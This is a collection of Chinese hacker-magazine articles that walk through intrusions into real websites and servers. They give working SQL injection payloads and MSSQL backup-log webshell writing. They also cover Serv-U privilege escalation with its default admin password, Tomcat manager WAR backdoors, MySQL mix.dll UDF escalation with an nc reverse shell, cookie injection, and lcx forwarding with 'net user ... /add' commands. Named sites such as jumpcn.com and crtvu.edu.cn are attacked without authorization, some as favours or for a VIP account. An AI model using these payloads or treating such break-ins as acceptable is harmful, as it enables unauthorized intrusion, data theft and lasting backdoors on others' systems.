接下来，我们开始尝试能否获取路径吧，方法如图2所示。看来获取路径失败，别着急我们还有方法，我们在注入点后边跟个 `;xx` 看看，如图3所示。


嘿嘿，路径出来了。我们开始备份拿 webshell 咯^^。构造 SQL 如下：

```sql
alter database orz6 set RECOVERY FULL
backup log orz6 to disk = 'c:/majun' with init
create table cmd (a image)
insert into cmd (a) values ('webshell代码')
backup log orz6 to disk = 'd:/wwwroot/orz6/www/www.orz6.com/1.asp'
```


备份得了一句话，如图4所示。然后根据注入得到的信息获得 hackdiy.com 的物理路径，如图5，最后写了个 txt 放在该网站下，如图6所示。最后录了个 demo 给大家，不过是我事后录的。有什么不懂可以到我博客留言，或者发电子邮件给我：majun1988@gmail.com。

编辑点评：暴 aspx 的路径，加“~”号、加“;”号，或将数字型参数改成字符串或数组型参数，都是常规方法，结合 backup log 是一个行之有效的攻击方法，本文正是证实了这一点。

【hackdiy.smv 已收录在本期光盘】

## or 注入 DJ 网站

从本文你可以学到：

- or 注入的基本语句
- serv-u 的端口转发提权方法

春节呆在家里上网，我表哥突然找我说要一个 DJ 网站的 VIP 会员，说搞定后请我吃 KFC，于是就答应了。用 IE 打开目标网站，找到一个带参数的 ASP 链接，如图1所示，提交 AND 1=1，如图2所示。可能到了这里，有些读者会选择放弃。其实，如果一个网站的 SQL 注入不是过滤得很严的话，可以试试 or 注入。向注入点提交 or 1=1，发现跳到另外一个页面了，如图3。然后 or 1=2 返回最原始的页面了，如图4。由于 or 的特性，当查询条件为真的时候，返回是异常的；当查询条件为假的时候，返回是正常的。

## 一、or 注入语句进行检测


这里我对各语句进行详细解释：

`/productsview2.asp?id=248 or exists (select * from admin)`

// 判断是否存在 admin 这个表，发现页面返回正常，也就是图4，说明不存在 admin 这个表。


`/productsview2.asp?id=248 or exists(select * from manage)`

// 页面返回异常了，也就是图3，说明存在 manage 这个表。猜完表后就要猜解字段了。

`/productsview2.asp?id=248 or exists(select username from manage)`

// 返回异常页面了，说明 manage 这个表中含有 username 这个字段，这时我们就可以猜数据了。

`/productsview2.asp?id=248 or (select top 1 asc(mid(username,1,1)) from manage)<123`

// 判断 manage 表中 username 字段的第一条数据的第一个字符的 ASCII 值是否小于 123，提交后发现返回异常页面。

`/productsview2.asp?id=248 or (select top 1 asc(mid(username,1,1)) from manage)>96`

// 提交后发现返回异常页面，得到第一个字符的 ASCII 值范围在 97~122 之间，也就是在字母 a-z 之间，再慢慢缩小猜解的范围直到猜解出来，用牛顿多功能 ASCII 转换工具转换一下就可以得到管理员用户名的第一个字符了。需要猜解第二位的时候只要把上面语句改为 mid(username,2,1)，第三位 mid(username,3,1)……如此类推。经过一番努力，得到 username 字段的第一条数据的 ASCII 值为 97、100、109、105、110，转换得出字符串为 admin。猜解完用户名还需要猜解密码，先猜字符串再猜数据。

## 二、HTML 备份限制的突破

用明小子跑了下后台，如图5所示。用注入得到的用户密码登录后台，逛了一圈之后发现有备份数据库的地方，如图6所示。不过有 HTML 限制，这个可以突破的。“查看”→“源文件”→“文件”→“另存为”，保存到本地。接着用文本格式打开它，找到 `<form method='post' action='admin_data.asp?action=backdata&act=backup'>`，把这里的 action 改为 admin_data.asp 这个文件的 URL 路径：`http://www.xxx.com/admin/admin_data.asp?action=backdata&act=backup`，再修改 `<input type="text" size="25" value="/data/#ylmv_data.mdb" disabled><input type=hidden name=DBpath value="/data/#ylmv_data.mdb">` 的第二个 value 值 `/data/#ylmv_data.mdb` 为你需要备份的文件。可能有些读者不明白为了什么要这样弄，这里就要运用到一些 HTML 知识了，如果不会的朋友可以把

## 三、Serv-U 6.4 提权


可以借助 ASP 图片木马生成器这款软件，先把一张比较小的图片（经过后来的测试发现除了判断文件头还判断大小）和一个 ASP 一句话木马放到这款软件的目录下，写好名称进行生成，如图8所示，就会在所选目录生成一个“aspmuma.gif”图片木马，把它上传上去，如图9所示。把返回的相对路径按照上面的方法替换好，打开后如图10所示，写好备份后的路径进行备份，如图11所示。用 lake2 的 eval 最小马发送端连接上去，如图12所示。


拿到 WEBSHELL 只要修改下数据库就可以拿到 VIP 会员了，相信大家都会，以前的手册也有介绍过。既然拿到 SHELL，不提权怎对得起自己呢？先来看看这个虚拟主机是用什么 FTP 软件搭建的。“开始”－“运行”－“FTP www.xxx.com”，如图13所示。最近，6.4 这个版本有人发布了提权 ASP 版本出来，于是我下载回来进行测试，发现无法成功提权，很多朋友都和我一样觉得很郁闷。其实网上的 ASP 大多都是依赖 XMLHTTP 这个组件来访问本地的 43958 端口从而添加系统权限 FTP 用户。那么我们不用 XMLHTTP 来模拟连接本地 FTP 用户，而是我们自己创造条件来访问 43958 端口又行不行呢？


上传一个被压缩过的 CMD.EXE（因为 IIS 6.0 默认不让上传超过 200KB 的文件）和一个转发工具 Fpipe.exe 到“C:\Documents and Settings\All Users\Documents”这个目录（这个目录默认是 everyone 权限），并且已经在本地安装好 SERV-U。在 WEBSHELL 执行“C:\Documents and Settings\All Users\Documents\Fpipe.exe -v -l 43959 -r 43958 127.0.0.1”，如图14所示。执行之后 IIS 会处于假死现象，到了这时操作一定要迅速，不然被管理员发现网站访问速度慢了许多就麻烦了。打开 SERV-U，右键新建一个服务器，如图15所示。第一步输入目标 IP，第二步会提示要你输入端口号，这时我们输入转发出来的端口 43959，第三步输入 FTP 服务器名称，可以随便输入，第四步输入默认账户“LocalAdministrator”，第五步输入默认密码“#i1@$ak#.lk;0@P”，连接对方 FTP 服务器，如图16、图17、图18所示。


发现已经得到对方 FTP 服务器的管理权限！新建一个 FTP 用户，在“账户”－“特权”那里选为“系统管理员”，在“目录访问”那里把所有权限勾上，最后“应用”，如图17、图18所示。“开始”－“运行”－“FTP www.xxx.com”，输入刚才新建 FTP 用户和密码，因为对方开了 3389，所以连接上后执行 `quote site exec net user Tommie nohack /add & net localgroup administrators Tommie /add`，返回“200 EXEC command successful”说明成功添加了一个用户名是 Tommie、密码为 nohack 的管理员，如图19所示。登录 3389，打开“任务管理器”→“进程”，勾选“显示所有用户的进程”，找到转发工具的进程 Fpipe.exe 结束之，如图20所示，使 IIS 再次恢复正常工作。


## 四、感想

这次入侵让我回想起 Gene6 的提权，虽然虚拟主机的目录权限早已设置得死死的，但庆幸的是 Documents 这样的目录并没有被设置，而且 Serv-U 默认只允许 127.0.0.1（也就是本地，当然，你也可以把 Serv-U 设置成 0.0.0.0 这样，也就是无限制连接）访问 43958 端口，所以可以通过转发来解决这个问题。经过多个版本的测试，这个目录无修改权限的提权方法是通杀所有版本的。前提是服务器必须要支持 WScript.Shell 组件或支持执行命令。最后，看文章后有不清楚的朋友可以直接到黑客手册论坛找我，论坛 ID：Tommie。


> **编辑点评：**
>
> or 注入现在已经集成到 nbsi 里了，估计很多人都用 nbsi 的 or 注入脱过库，没有也没有关系，本文就是教会你这种注入方法。关于文中备份数据库时，图6中的 value 值是灰色的无法修改，只要在 HTML 元素 input 中有个属性是 readonly，大家清楚就可以了。HTML 毕竟是客户端脚本，无论是怎样的属性我们在本地都是可以修改的。

## 利用 Tomcat 的用户名和密码构建“永久”后门

图 Simeon

- 从本案例中可以学到：
- 关于 JSP 的一些基础知识
- 利用 Tomcat 的用户名和密码来构建后门

首先要感谢《黑客手册》“非安全·后生”编辑为本文提供了帮助；还要感谢网友“伤心的鱼”，本文借鉴了他的《看小菜如何搞定 Tomcat》一文中的思路，该文中提供的 war 生成比较模糊，且操作复杂，本文提供的方法简单易行。

JSP 是 Java Server Pages 的缩写，是由 Sun Microsystems 公司倡导、许多公司参与一起建立的一种动态网页技术标准。JSP 技术是用 Java 语言作为脚本语言的，JSP 网页为整个服务器端的 Java 库单元提供了一个接口来服务于 HTTP 的应用程序。在传统的网页 HTML 文件（*.htm、*.html）中加入 Java 程序片段和 JSP 标记，就构成了 JSP 网页（*.jsp）。Web 服务器在遇到访问 JSP 网页的请求时，首先执行其中的程序片段，然后将执行结果以 HTML 格式返回给客户端。程序片段可以操作数据库、重新定向网页以及发送 email 等等，这就是建立动态网站所需的功能。所有程序操作都在服务器端执行，网络上传送给客户端的仅是得到的结果，对客户端浏览器的要求最低，可以实现无 Plug-in、无 ActiveX、无 Java Applet，甚至无 Frame。

Tomcat 是一个免费的开源的 Servlet 容器，它是 Apache 基金会的 Jakarta 项目中的一个核心项目，由 Apache、Sun 和其它一些公司及个人共同开发而成。由于有了 Sun 的参与和支持，最新的 Servlet 和 JSP 规范总能在 Tomcat 中得到体现。与传统的桌面应用程序不同，Tomcat 中的应用程序是一个 WAR（Web Archive）文件，WAR 是 Sun 提出的一种 Web 应用程序格式，与 JAR 类似，也是许多文件的压缩包。这个包中的文件按一定目录结构来组织：通常其根目录下可包含 HTML 和 JSP 文件或者包含这两种文件的目录，另外还会有一个 WEB-INF 目录，这个目录很重要。通常在 WEB-INF 目录下有一个 web.xml 文件和一个 classes 目录，web.xml 是这个应用的配置文件，而 classes 目录下则包含编译好的 Servlet 类和 JSP 或 Servlet 所依赖的其它类（如 JavaBean）。通常这些所依赖的类也可以打包成 JAR 放到 WEB-INF 下的 lib 目录下，当然也可以放到系统的 CLASSPATH 中，但那样移植和管理起来不方便。

在 Tomcat 中，应用程序的部署很简单，只需将你的 WAR 放到 Tomcat 的 webapp 目录下，Tomcat 会自动检测到这个文件，并将其解压。在浏览器中访问这个应用的 JSP 时，通常第一次会很慢，因为 Tomcat 要将 JSP 转化为 Servlet 文件，然后编译。编译以后，访问将会很快。另外 Tomcat 也提供了一个应用：manager，访问这个应用需要用户名和密码，用户名和密码存储在一个 XML 文件中。通过这个应用，辅助于 FTP，可以在远程通过 Web 部署和撤销应用，当然本地也可以，本案例就是利用这个特性来构建后门程序的。

Tomcat 不仅仅是一个 Servlet 容器，它也具有传统的 Web 服务器的功能：处理 HTML 页面。但是与 Apache 相比，它的处理静态 HTML 的能力就不如 Apache。可以将 Tomcat 和 Apache 集成到一块，让 Apache 处理静态 HTML，而 Tomcat 处理 JSP 和 Servlet，这种集成只需要修改一下 Apache 和 Tomcat 的配置文件即可。

## 一、检查 Tomcat 设置

服务器安装了 Apache Tomcat 后会默认开放 8080 端口供外部连接，一般在浏览器中输入“IP:8080”或者域名来访问 Apache Tomcat 页面，如图1所示。

## 二、查看 Tomcat 用户配置文件

## 三、进入 Tomcat 管理

Tomcat 提供了在线管理，本案例也正是利用在线管理来构建后门的。在图1中单击左上角下面的“Tomcat Manager”链接后，会弹出一个要求输入用户名和密码的窗口，该窗口跟 Windows 登录窗口有点类似，如图3所示。

## 四、查看部署情况

在图3中输入从“tomcat-users.xml”文件中获取的具有管理权限的用户名和密码，验证通过后进入部署管理页面，如图4所示。

- 在部署管理页面中可以“Start”（启动）、“Stop”（停止）、“Reload”（重载）、“Undeploy”（删除部署）已经部署的项目，单击“Undeploy”会对文件进行物理删除。
- 部署的文件夹是以 *.war 文件的名称命名，例如上传的文件是 job.war，则在 Tomcat 目录中会对应生成一个“job”文件夹。

## 五、部署 JSP WebShell 后门程序

在部署管理页面的下方有一个“WAR file to deploy”，单击浏览选择一个已经设置好的后门 war 文件，在本例中的后门程序为 job.war，单击“Deploy”将该文件部署到服务器上，如图5所示。

- 部署文件必须是 war 文件。
- 将 WinZip 软件安装在系统中；然后将单一或者多个 JSP 后门文件压缩成一个压缩文件，压缩成功后，将“*.zip”文件更名为“*.war”即可。
- 上传文件后，Tomcat 会自动进行部署并运行。

## 六、测试后门程序

在地址栏中输入“部署文件名称/jsp 文件”，例如在本例中其正确的访问是“http://127.0.0.1:8080/job/job.jsp”，如果设置正确会显示如图6所示的 WebShell 登录窗口。

## 七、在 WebShell 中执行命令

在 WebShell 中输入密码后，进入到 WebShell 管理界面，默认显示服务器的一些信息，在功能菜单中选择“执行命令”，并在执行命令输入框中输入“netstat -an”命令可以查看网络连接等，如图7所示。

- 通过这种方式部署的 JSP 后门程序具有较大权限，可以执行添加用户等危险命令。
- JSP 后门中可以通过“文件系统”模块来对文件进行操作；通过“数据库”模块来连接数据库等操作。
- 本案例构建后门也正是这里，平时可以在系统中保留一个小的后门程序；如果后门程序被杀毒软件查杀或者被管理员发现并删除掉了，则可以通过以上步骤重新进行部署，从而循环“永久”保留后门。

小结：本案例介绍的情况适合于管理员（admin）密码为空的情况，同时也适合于获取了 Tomcat 中的 tomcat-users.xml 文件中的用户名和密码的情况。


## 猪猪字幕组引发的一次入侵检测

■ 小帅@0xST || sniperhjq@0xST

从本文你可以学到：

- mysql 5.0 提权

### 一、起因

经常看动漫的朋友一定知道一个字幕组叫做“猪猪字幕组”。人家发布的动画质量是又快又好，我因为个人对管理员有点不满便想涂页，后来想想人家也没说错啥，算了。不过已经有这个想法了，那就来一次入侵检测吧。看看这个经常被 DDOS 的站的服务器配置如何。

## 二、小帅篇

首先，我没有什么关于动漫发布的 0day（我们检测的是 www.jumpcn.com），那就选择旁注吧，专门来反查 IP 的网站查了一下，发现有几个站，呵呵，咱就一个个看过去，如图1所示。上面的站貌似都无法连接，提示“bad request”等字样，但等我看到一个站的时候发现一个问题，可能存在注入，于是给检测一下，直接丢进啊 D 里跑，如图2所示。


账号和密码都跑出来了，心里一想，不是吧，这么大的字幕组老给 D，人家为什么不涂页呢？于是乎就直接冲到后台，发现竟然利用 `or'='or'` 也能进去，OK，咱就不管那么多了，如图3所示。


看看！多么“熟悉”的画面，这个系统是漏洞全身的。嘿嘿，直接上个图片备份去，在“当前路径”里写上我们的图片马，将备份名字改为 1.asp，大家看图就该明白了。OK，成功备份如图4所示。嘿嘿，我们拿到小马了，就去看看吧，如图5所示。到这，简直就是一口气，轻松，接着就是看上面的东西了，上去一看，支持 WScript.Shell 组件，嘿嘿，小帅心里一想，这回倒有得玩了，如图6所示。


管理员也将终端改成了 33890，一些常见的地方均被封杀了，看来管理员是有点经验的，什么都不说，先传了个 cmd.exe 上去看看管理员有哪些，竟然无法运行。ipconfig 等命令还是能用的，不过连 net1 也被封杀，这下把我逼急了，怎么办呢？看了下服务器支持 PHP 的，丢了个 phpspy2008 上去，我本以为能有什么作为的，看了一下才知道，这个 PHP 不是在 Apache 平台上的，是 IIS 的，和 ASP 同个权限。唉！这下权限入了低谷，再仔细看了一下，是否支持全部脚本的呢？试了才知道，于是我丢了个 ASPX 马上去，本来不能浏览的 C 盘现在全部展现在我的眼前了，哈哈！如图7所示。咱的权限又突破了一层，郁闷的事还没完，权限仍然比较低，提权遇到了麻烦，用端口扫描器扫了一下，存在 Serv-U，也扫到了位置，但是没有权限，看来我们 Serv-U 这条路是彻底走不通的，放弃了先。


就在 C 盘里找啊找，实在找不出什么东西，天色已经暗了，先去吃饭。饭吃完回来躺在床上和 bloodsword 聊了一会，得知可以用最近发布的 Serv-U 通杀提权脚本啊！立马起床工作，为什么老天就是那么不公平，提示：`in: User LocalAdministrator out: 331 User name okay, need password. in: Pass #i1@$ak#.lk;0@P out: 530 Not logged in.` 看来密码已经被改了，提权又陷入低潮。无奈，去网上溜达，看到了组织里发了一个目前最强的 WebShell，刚好有多远呢？试下才知道，原来是心动吧的 aspshell，放上去看看，绿色的界面，还算不错，忽然鼠标点到一个地方，眼前一亮，如图8所示。哈哈！是 PHP 脚本的老巢？去看看不就知道了，抱着绝望的心情去尝试最后一次挣扎吧！过年了，人品也不错，竟然被我翻到了 MySQL 这个老巢，哈哈！竟然还有 phpMyAdmin，嘿嘿，bbs 等信息都在上面，OK！我就直接在 phpMyAdmin 目录里的 config.


讲内网和对防护要弱一些，因此该案例对于内网渗透时有一定的帮助。由于本人对 JSP 不是特别熟悉，尤其是部署设置，不知道在 JSP 中是否也可以进行诸如 IIS 中的严格权限限制，能否禁止 JSP WebShell 的执行，本案例是对服务器攻防的一种探讨，功能强大的应用程序往往一个弱小的漏洞就可以攻破整个系统。

> 编辑点评：
>
> 什么样的黑客文章是好文章呢？有独到的技术发现，授别人未授、想别人未想，在技术上领先一步而且实用性较高，这种文章自然是好的文章。但是这样的文章实在太少了，怕是我编毕一辈子也碰不到几篇。这篇文章不属于此类，应当归属于适合于杂志的好文章，虽然没有独到的技术性，但是却写得洋洋洒洒、一目了然，非常适合各个层面（如初级菜鸟和越来越摸不着头脑的老鸟了）的读者。应当是作者亲自操作了一次文中的所有步骤才有了此文，虽然是借鉴了前人发表过的东西。俗话说天下文章一大抄，就看你会抄不会抄了。

## 三、Sniperhg 篇

话说今天一大早，被老妈叫起来洗澡，洗完澡准备再睡个回笼觉。结果老妈把我的床单给拿去洗了。只有打开电脑，打开了 QQ，小帅那头像开始在那里狂闪，让我给他提权，提权是我最头疼的事，怎么找我啊！不过反正一大早的也无事可做，看看呗。

那孩子给我的是个 ASP 的马，服务器还支持 ASPX、PHP。ASP、ASPX 和 PHP 都是 IIS 解析的，权限都差不多，只是有 shell 那个网站可写，命令基本都执行不了，能执行的也就是那些无关紧要的。过了会儿小帅告诉我有个 phpMyAdmin 目录，他也拿到了 root 密码。原来 phpMyAdmin 是可读的，config.inc.php 文件里就写了 MySQL 的密码。说实话，如果是 sa 口令我还比较熟悉，MSSQL 带的那些扩展都相当强悍，可以直接添加 Windows 管理员，但是这个 MySQL 以前都很少接触，顶多拿了几个 shell，能拿到系统权限基本都是因为权限没设置好的。Apache 是以服务启动的，shell 继承了 Apache 的权限，所以可以直接执行系统命令。但现在 IIS 解析 PHP，权限小得可怜，命令都不能执行。记得以前看杂志关于 PHP 提权的有个 mix.dll，刚好 PHPSPY 自带了一个，立马解压到当前目录，然后用 PHPSPY 连接 MySQL 数据库，填好账号密码和数据库，执行 SQL 语句：`CREATE FUNCTION Mixconnect RETURNS STRING SONAME 'd:\\wwwroot\\xxx\\wwwroot\\mix.dll';`

返回的结果却是：No paths allowed for shared library，如图 10 所示。因为之前百度了一些资料，出现这个错误是因为 MySQL 版本是 5.0 以上的，不支持完整路径载入 DLL 文件，那就要将这个 mix.dll 放到系统目录去（`c:\windows\` 或者 `c:\windows\SYSTEM32` 都可以），但是 `c:\windows` 俺没有写权限啊。手头唯一一个威力大的就是 root 了，继续百度，找到答案：建一个表，里面写 mix.dll 的内容，然后再导入到系统目录，还好有个 LOAD_FILE（root 就是爽啊），具体实现的 SQL 语句就是：

```sql
create table fuck(abc longblob);
insert into fuck values(load_file('dll路径'));
select * from fuck into dumpfile 'c:\\windows\\mix.dll';
```

这 3 句代码依次执行（如果是 WIN2000 就得写 `c:\\winnt\\mix.dll`），成功后执行：`CREATE FUNCTION Mixconnect RETURNS STRING SONAME 'mix.dll';`，返回成功，如图 11 所示。因为俺跟小帅都是内网，所以小帅找他朋友借了个 3389（感叹一下，那 3389 速度真不是盖的，跟操作自己电脑一个感觉，貌似没延时，真爽）。现在登录进 3389，先开个 CMD 监听端口：`NC -VV -L -P 32388`，监听本地 32388 端口；然后再在 webshell 里执行 `select Mixconnect('借来的3389的IP','32388');`，这样马上就收到一个来自目标主机的 cmdshell，继承 MySQL 权限，也就是说我们有了个系统权限的 cmdshell，赶快 `net user hg hg /add`，成功，如图 12 所示。接下来就杀目标的 3389，以及靶机的速度杀掉 MySQL 进程，再启动 MySQL（因为 mix.dll 的 BUG 就是这样，一次性的，一次不成功 MySQL 就死了，必须等 MySQL 下次重启，打草惊蛇就不好），如图 13 所示。登录了 3389 界面看了下主机配置，哇，如图 14 所示，流口水ing。IPCONFIG 了下，汗，3 个 IP，传说中的 3 线主机被我截到了？再看一下其他东西，哇噻，一套虚拟主机系统，百度一下，5000 元一套呢！拿下系统权限后进了 3389 研究了一下，看到 MSSQL，然后猜想会不会两个数据库的密码是一样的呢？使用 SQLTOOLS 填入 IP、sa、password，连接，还真成功了，如图 15 所示。早知道就用 MSSQL 了，添加管理员方便多了，简直就是一步登天，不过今天确实是学到了东西，第一次尝试用 MySQL、mix.dll 提权，绕个弯子学了点知识，掌握了一个方法，确实是很值得的。

## 四、后话

最后经过确认，猪猪宁幸上的网站并不在上面，而这个服务器绑定的只是 jumpcn.com（jumpcn.com 和 www.jumpcn.com 是不同滴）的域名，还有一种可能就是猪猪以前在这服务器上落过脚，而用来反查的那个网站没有更新，导致我们误打误撞搞进了这个将近 500 个网站的服务器。最后用 http://114best.com 和 http://www.seologs.com/ip-domains.html 查了一下，猪猪确实不在上面。

## 从 cookies 注入到植入到拿下 58 个网站

### 从本文你可以学习到

- cookie 注入的基本方法

朋友丢了一个站过来让我帮忙搞定，我看了下是个家居装饰网站，我的第一反应是先把它放到啊 D 里检查检查，如图 1 所示，结果什么也没有，这也很正常，现在具有明显注入的网站不像以前那么多了。

我就在站上转了转，来到“案例展示”，由于习惯就在网址最后加了个单引号，出现了如图 2 所示的结果，不禁心里偷喜。看过黑手以前那些注入文章的就知道，现在的很多防注墙都只检查 GET 方式提交的变量，而对 POST 和 cookies 获取顾及得比较少。检查一下是否可以 cookies 注入，删除浏览器地址栏中的全部内容（`http://www.**zmzs.com/ProductShow.asp?ArticleID=143`），然后输入 `javascript:alert(document.cookie="变量="+escape("变量值 and 1=1"))` 以修改 cookies 中的值，如图 3 所示，直接访问 `http://www.**zmzs.com/ProductShow.asp``，返回正常；再修改 `javascript:alert(document.cookie="变量="+escape("变量值 and 1=2"))` 然后刷新，如图 4、图 5 所示，心中再一阵狂喜，经典的 cookies 注入就这样被确定了。

地球人都知道 cookies 注入是很费时费事的，我推荐大家用刺刀大哥的中转提速工具，在“注入键名”填入变量和等号，在“注入 URL 地址”中填入存在 cookies 注入的链接（但要去掉“？”及其以后的部分），在“来源页”中填入和“注入 URL 地址”一样的内容（因为这里不存在验证），cookies 保持默认，然后点右边的“cookies 注入”，下面出现的“POST 提交值”暂不管它（但要记住这个变量 `jmdcw`，等会儿要用的），点击生成 ASP，如图 6 所示。

然后我用幻境 ASP 服务器在本地搭建起一个简单的 ASP 服务环境，再在本地访问刚才生成的 `jmCook.asp`，如图 7 所示，然后把地址加上参数（即为 `http://127.0.0.1/jmCook.asp?jmdcw=143`，143 为原始注入链接后的参数值）放到啊 D 里面，这次有结果了，如图 8 所示，拿到了用户名和密码了，再辛苦一下啊 D，找到后台 `http://www.**zmzs.com/admin/default.asp` 登录，如图 9 所示。

大家看到了吧，有数据后备份，呵呵，webshell 是唾手可得了。点击添加新闻，找到图片的地方，上传图片，这时一个熟悉的窗口出现在我的面前，如图 10 所示，这不就是传说中的雷池新闻发布系统么？验证一下，直接打开：`http://www.**zmzs.com/admin/uploadPic.asp?actionType=mod&picName=yi.asp`，上传页面出来了，如图 11 所示。丢个 jpg 后缀的一句话上去（它会自动把我的 jpg 文件改成 asp 后缀的，这是雷池的一个小漏洞），上传成功后，我们到上传文件管理处终于看到我心心爱的一句话了，点击访问一下它，找到它的路径：`http://www.**zmzs.com/UploadFiles/yi.asp`，如图 12 所示，这样还省去了备份的步骤。

（相信大家对那个拿 shell 已经轻车熟路了吧，我也试过备份，一样可以拿 shell），弹出一句话的客户端连接，成功！如图 13 所示。

先看看终端开发，哦，开了哦，端口是 2160。这样就省去我们开终端的麻烦了。在查看服务的时候我惊奇地发现了 Serv-U！以迅雷不及掩耳之势上传 Goldsun 的 ASP 版提权工具，添加超级用户，如图 15 所示。成功后，用终端连接器连它的 2160 端口试试，顺利登录。呵呵～，配置还不错嘛。看了一圈，发现上面一共有 58 个网站，如图 16 所示，这样整个服务器就在我们的掌控之中了。

入侵至此结束，现在可以向我朋友交差了。在入侵过程中运气还是很不错，大家只要细心点，就会在入侵中找到意外的收获。现在很多整站程序都加入了防注入系统，但这些防注系统的不足就导致我们的 cookie 注入，小菜们一定要好好学提哦！

> 编辑点评：
>
> mysql 提权已经有现成的 php 木马了，名字我忘记了，大家可以搜索一下。另外，不仅可以利用这个 dll 提权，还可以用它来做个后门，当然前提是你的 webshell 要存在。另外提醒一点的是，我看很多人反弹端口都是随便设定任意端口，像本文是 32388，其实有的主机设置得比较严格，用 443 或 80 端口一般会反弹出来，但其它端口就不一定了。

> **编辑点评：**
>
> 很详尽的一个 cookies 注入过程，看完本文大家应当都会了。不过真的希望 cookies 注入的检测集成到 nbsi 或阿 D 这样的工具中来方便大家，不过手工检测成就感更大吧。嘿嘿

## 传统渗透方法的应用

### 从本文你可以学到：

- 基本的入侵思路及简单过程
- 学会自我思路的分析及方案定义

本来是不准备写这篇文章的，因为确实是没用什么新的技术和思维在里面，可是这篇文章所用到的渗透方法一直都是一种很正统的思维。

### 1、外网－内网

思路：通过脚本漏洞，在外网打开突破口，由外网杀进内网。在正规的渗透中，外网到内网，包括了信息的搜集以及入侵前期的刺探等。

目标：www.crtvu.edu.cn（202.205.160.123），测试了一下，主站难突破，还是从 C 段入手。查了下 C 段开了 80、8080 的 IP，8080 端口主要是 JSP 的页面，发现 http://library.crtvu.edu.cn/sfw/（202.205.160.94），程序很熟悉，兰缘雅境图文系统，假如你问我是怎么知道的，那么我只能说是经验，我们也许只隔这点区别。

兰缘雅境图文系统可以利用 createasp.asp 向 lastnewsxp.asp 写入一句话木马，最终获得 webshell。首先注册一个普通用户（如图 1），然后登录后台（如图 2）后发表文章，写入一句话马，如图 3。

然后用一句话连接 lastnewsxp.asp，成功得到 webshell，如图 4。

利用 createasp.asp 让小马写进 lastnewsxp.asp，正统的渗透思维吧。渗透的方法很多种，大家也会遇到很多问题，分析自己所处的环境，制定可行的渗透方案，这样思路才会明确。

### 2、内网渗透

拿到 webshell 就得提权，提权的方法无非几种，有 Serv-U 提权就很容易了，有些 ASP 木马嵌套了 Serv-U 的提权脚本，现在的环境是：

- a、Serv-U 可以提权，拿到系统权限没有任何问题（如图 5）。
- b、终端 3389 不能外连，得用 lcx 转发。
- c、ping 了下目标 IP，`arp -a` 发现目标在列，可以进行 ARP 欺骗。

### 思路如下：

**分析当前的网络环境：**

拿到一台主机我们第一步应该做什么？不是种后门而是搜集信息。有 MSSQL 的拿到 sa 密码，有 MySQL 的拿到 root 密码，抓取管理员的密码哈希，破解管理员密码，进入系统后看看管理员的桌面，利用已经有的相关 FTP 软件扩大成果。有了这些，即便管理员发现了，你一样可以为下次再进入准备充足的条件。

**制定渗透方案：**

通过 ARP 嗅骗目标的 80、1433 等常用端口，发现里面没有装任何数据库软件，不过我拿到网站的配置文件，里面有不少数据库密码，都是很重要的信息。假如有目标的数据库密码，从而帮我们拿到了系统权限，那我们的目的不就达到了吗？抓取了哈希，用的是 DOS 版的 hash，如图 6。

然后用 lc5 破解密码，一般不复杂，2 天就 OK 了吧。拿到管理员密码在这个过程中作用不大，但是养成这个习惯很有必要。一般管理员没有必要的话，不会轻易修改自己的密码。

用 lcx 转发，再用 Serv-U 添加管理员用户，在 webshell 里面执行 `lcx -slave 公网IP 520 127.0.0.1 3389`，接着在公网 IP 里执行 `lcx -listen 520 1982`，并在终端里执行 `127.0.0.1:1982`，如图 7。

最后是用 Cain 进行嗅探，挂着 Cain 等着管理员上线吧，如图 8。

### 结尾：

目标受阻——C 段入手——得到 webshell——提权拿到系统权限——对目标进行嗅探，算是比较正统的渗透思维吧。渗透的方法很多种，大家也会遇到很多问题，分析自己所处的环境，制定可行的渗透方案，这样思路才会明确。文章写得可能很文绉绉，但希望可以帮到你，那我就感激不尽了。

> 编辑点评：确实是比较常见的渗透方法，遇到问题解决问题，并不是所有的渗透都会一帆风顺的。方法有许多种，自然方案也会层出不穷，如何去选择来达到最终目标，希望有更多的朋友写写不同的方案。

## IIS 下的 MySQL 提权

■ 南京自动化研究院 冯各

### 从本文你可以学到：

- IIS 下利用 MySQL 提权

大家春节好，春节放假在家无聊，外面天气又冷，也没有要陪的人，就呆在家里上网，哎！（未婚：一样啊，缘分啊……）这回给大家带来的是 IIS 下利用 MySQL 提权。

昨天，朋友旁注拿到一个站的 webshell，问我有没有办法提权，因为要弄的站在这台服务器上，但是服务器权限设置不错，FTP 用的是微软自带的，也没装 pcAnywhere，远程桌面管理的端口号也改了。不过，后来还是找到突破口了，下面给大家详细讲一个整个提权过程吧！

### 一、提权受挫

拿 webshell 的过程我就不多说了，大致看了下拿到的这个 webshell，网站是企业程序，可能是通过注入点拿到管理员口令，登录后台利用数据库备份，拿到的 webshell。

我们来看看这个 webshell 的权限有多大，查看服务器组件情况，如图 1。

WScript.Shell 和 FSO 都没有删除，看来自气不错，看看能不能执行命令。到 Command 里查看服务器用户，用户还真不少，应该是对每个网站都建立了独立用户，如图 2。

用 `net start` 查看服务器开放的服务情况，发现 FTP 是用微软自带的，安装有 MySQL 和 MSSQL 数据库，还开启了系统自带的防火墙，如图 3。

- **现在有两种方法：**
- 第一种，找 MSSQL 数据库 sa 用户的口令；
- 第二种，找 MySQL 数据库 root 的配置文件。如果运气好，说不定可以弄到 root 口令。

只要能找到这两个数据库其中一个的用户名口令，提权就有希望了。浏览服务器盘符，能看的目录全查看了一遍，发现 `c:\windows\` 目录下有个 my.ini 文件，好像存放了 root 用户的口令，如图 4。

现在弄到 root 用户的口令，上传一个 php 文件上去提权吧！但是，传上去的 php 文件不支持，asp、.net 文件也不支持，那怎样连接 MySQL 数据库呢？远程连接试试看……但是扫描发现 MySQL 监听的 3306 端口没有开，看来只能本地连接了。

在 webshell 的数据库操作里面找了找，发现支持 MySQL，马上把口令写上去，点击连接数据库，但是返回错误信息，如图 5。

在网上问了问朋友，才知道 ASP 下要连接 MySQL 好像还要安装驱动，ASP 的 webshell 连接不了 MySQL 数据库的。提权刚有点希望就碰到了这种事，没办法，只能想想其它方法了。好困啊，先睡个午觉，等会儿接着弄。

### 二、提权成功

一觉醒来快 5 点了，一天都快完了，睡会觉精神好多了。想起来，刚才那台服务器拿到了 root 口令，但是还没拿到权限呢，接着弄吧。MySQL 只允许本地连接，现在我们可以执行命令，那为什么不返回来一个低权限的 shell，在 shell 里连接 MySQL 数据库呢？

说干就干，马上上传去一个 nc 到 `c:\Documents and Settings\All Users\Documents` 目录下，在一台服务器上监听 99 端口，在 webshell 里执行命令，反弹回一个 shell，如图 6。

